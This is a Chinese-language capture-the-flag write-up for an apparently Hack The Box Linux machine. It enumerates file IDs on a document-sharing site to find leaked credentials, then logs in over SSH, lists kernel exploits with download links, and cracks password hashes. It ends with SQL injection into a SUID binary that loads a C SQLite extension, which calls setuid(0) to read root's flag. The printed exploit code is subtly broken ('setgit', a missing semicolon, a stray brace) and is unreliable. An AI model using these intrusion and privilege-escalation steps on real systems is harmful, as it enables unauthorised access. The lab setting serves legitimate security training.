



* 10.10.11.235


nmap sc




看见一个网盘服务


思路卡在这里了，不知道能干啥

卡了很久emmmm，路由挨个看看吧

```
/100/displayContent
/100/getFileDetail/
/112/delete
/112/editContent
/112/getFileDetail/
/48/deleteGroup
/blockFile/
/createGroup/
/home/
/logout/
/reports/
/showMyFiles/
/showMyGroups/
/unblockFile/
/upload/

```


 0~ 100 爆破

| id   | 状态 | 路由 |
| ---- | ---- | ---- |
| 79   | 401  | 340  |
| 98   |      |      |
| 99   |      |      |


emmm 应该是要读 79 这个文件？.


四个神秘用户？


草，藏恁深


```
hey team after the great success of the platform we need now to continue the work.
on the new features for ours platform.
I have created a user for martin on the server to make the workflow easier for you please use the password "Xk4@KjyrYv8t194L!".
please make the necessary changes to the code before the end of the month
I will reach you soon with the token to apply your changes on the repo
thanks!
```

* `martin` `Xk4@KjyrYv8t194L!`

```
99       <div id="demo" class="collapse mt-4">
        
                hi team <br>
            
                please we have to stop using the document platform for the chat <br>
            
                +I have fixed the security issues in the middleware <br>
            
                thanks! :) <br>
```

```
100                 Welcome to Doodle Grive files sharing platform! <br>
            
                thank you for using our platform <br>
            
                if you have and questions don&#x27;t be affraid to contact us using the contact-us page! <br>
            
                have fun! ;) <br>
```

```
    101                hi team! <br>

                    me and my friend(Cris) created a new scheduled backup plan for the database <br>

                    the database will be automatically highly compressed and copied to /var/www/backups/ by a small bash script every day at 12:00 AM <br>

                    *Note: the backup directory may change in the future! <br>

                    *Note2: the backup would be protected with strong password! don&#x27;t even think to crack it guys! :) <br>
            
```

* **/var/www/backups/ **

### SSH 上号！


```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
fwupd-refresh:x:113:117:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
mysql:x:114:118:MySQL Server,,,:/nonexistent:/bin/false
git:x:115:119:Git Version Control,,,:/home/git:/bin/bash
martin:x:1001:1001:martin cruz,,,:/home/martin:/bin/bash
cris:x:1002:1002:Cris Disel,,,:/home/cris:/bin/bash
tom:x:1003:1003:Tom Hands,,,:/home/tom:/bin/bash
_laurel:x:997:997::/var/log/laurel:/bin/false

```

```
default-remote: local
remotes:
  images:
    addr: https://images.linuxcontainers.org
    protocol: simplestreams
    public: true
  local:
    addr: unix://
    public: false
aliases: {}

```

根据前面获得的，进入`/var/www/backups`看看有啥

7z是加密的，看看唯一一个没压缩的


```
hi team!
me and my friend(Cris) created a new backup scheduled plan for the database
the database will be automatically highly compressed and copied to /var/www/backups/ by a small bash script every day at 12:00 AM
*Note: the backup directory may change in the future!
*Note2: the backup would be protected with strong password! don't even think to crack it guys! :)
```

豌豆扫描结果

```
[+] [CVE-2022-2586] nft_object UAF

   Details: https://www.openwall.com/lists/oss-security/2022/08/29/5
   Exposure: probable
   Tags: [ ubuntu=(20.04) ]{kernel:5.12.13}
   Download URL: https://www.openwall.com/lists/oss-security/2022/08/29/5/1
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: mint=19,[ ubuntu=18|20 ], debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main

[+] [CVE-2021-22555] Netfilter heap out-of-bounds write

   Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
   Exposure: probable
   Tags: [ ubuntu=20.04 ]{kernel:5.8.0-*}
   Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c 
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
   Comments: ip_tables kernel module must be loaded

[+] [CVE-2022-32250] nft_object UAF (NFT_MSG_NEWSET)

   Details: https://research.nccgroup.com/2022/09/01/settlers-of-netlink-exploiting-a-limited-uaf-in-nf_tables-cve-2022-32250/
https://blog.theori.io/research/CVE-2022-32250-linux-kernel-lpe-2022/
   Exposure: less probable
   Tags: ubuntu=(22.04){kernel:5.15.0-27-generic}
   Download URL: https://raw.githubusercontent.com/theori-io/CVE-2022-32250-exploit/main/exp.c
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

[+] [CVE-2017-5618] setuid screen v4.5.0 LPE

   Details: https://seclists.org/oss-sec/2017/q1/184
   Exposure: less probable
   Download URL: https://www.exploit-db.com/download/https://www.exploit-db.com/exploits/41154

```

看看可疑目录

```
martin@drive:/etc$ tree `ls | grep cron`
cron.d
├── e2scrub_all
└── popularity-contest
cron.daily
├── apport
├── apt-compat
├── bsdmainutils
├── dpkg
├── logrotate
├── man-db
├── popularity-contest
└── update-notifier-common
cron.hourly
cron.monthly
crontab [error opening dir]
cron.weekly
├── man-db
└── update-notifier-common


```

突然想起来 备份文件里面有点神秘数据


hashexample里面有 查到是 Django SHA-1 掩码是 124


jd5y86w4xepu5uuctet7krjsk34p1h0n

1ljtu0pvn8es3irnya1rq3nhuq4h5wpz


爆破量太大，试试登入martix的 drive账号

`martinCruz@Xk4@KjyrYv8t194L!`


跟国外老哥交流一下后 ，确认是字典不够大 ，找kali的rockyou 字典 启爆!

* `tom@john316`


又是卡了好久


然后发现这个了


ssh 端口转发 !


然后又卡住了( 后面查了查进程 是mysqlx 


想起来 3000 端口被过滤了，然后进去nc 连了一下 3000 提示bad request ，ssh转发出来后就能进去 了


还是martix账号


登进去了，下个源码看看


```bash
#!/bin/bash
DB=$1
date_str=$(date +'%d_%b')
7z a -p'H@ckThisP@ssW0rDIfY0uC@n:)' /var/www/backups/${date_str}_db_backup.sqlite3.7z db.sqlite3
cd /var/www/backups/
ls -l --sort=t *.7z > backups_num.tmp
backups_num=$(cat backups_num.tmp | wc -l)
if [[ $backups_num -gt 10 ]]; then
      #backups is more than 10... deleting to oldest backup
      rm $(ls  *.7z --sort=t --color=never | tail -1)
      #oldest backup deleted successfully!
fi
rm backups_num.tmp

```

绝了

tom 和弔人好几个密码，都tm弱口令，终于tm进去了

tom@johnmayer7 e44f5134bed27adfb68b5c91fac44320


readme.txt

```
Hi team
after the great success of DoodleGrive, we are planning now to start working on our new project: "DoodleGrive self hosted",it will allow our customers to deploy their own documents sharing platform privately on thier servers...
However in addition with the "new self Hosted release" there should be a tool(doodleGrive-cli) to help the IT team in monitoring server status and fix errors that may happen.
As we mentioned in the last meeting the tool still in the development phase and we should test it properly...
We sent the username and the password in the email for every user to help us in testing the tool and make it better.
If you face any problem, please report it to the development team.
Best regards.

```


ida进去逆向一下看看


* moriarty@findMeIfY0uC@nMr.Holmz!

mian_menu 函数 进去后


* 函数1   show_users_list

* 函数2 show_groups_list

  

* 函数3 show_servers_status


哦？？


但是动不了


* 函数4  show_server_log

  

* 函数5 activate_user_account

  

格式化字符，不知道能不能逃逸？

尝试了多次之后，无法逃逸，但是可以注入里面的sqlite命令，同时过滤了很多东西，然后就可以使用 `load_extension` 来整活了


​	"+load_extension(char(46,47,50))+" // load_extension('./1')


编写如下exp:


```c++
/* Add your header comment here */
#include <sqlite3ext.h> /* Do not use <sqlite3.h>! */
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <signal.h>
#include <dirent.h>
#include <sys/stat.h>
SQLITE_EXTENSION_INIT1


#ifdef _WIN32
__declspec(dllexport)
#endif

int sqlite3_extension_init(
  sqlite3 *db, 
  char **pzErrMsg, 
  const sqlite3_api_routines *pApi
){
  int rc = SQLITE_OK;
  SQLITE_EXTENSION_INIT2(pApi);
  
	setuid(0);
    setgit(0);
    system("/bin/cat /root/root.txt")
}
  
  return rc;
}

```


```
gcc -shared exploit.c -o 1.so -nostartfiles -fPIC  
```

然后上传，添加执行权限，就能提权了，因为给了suid，可以执行的时候申请root权限。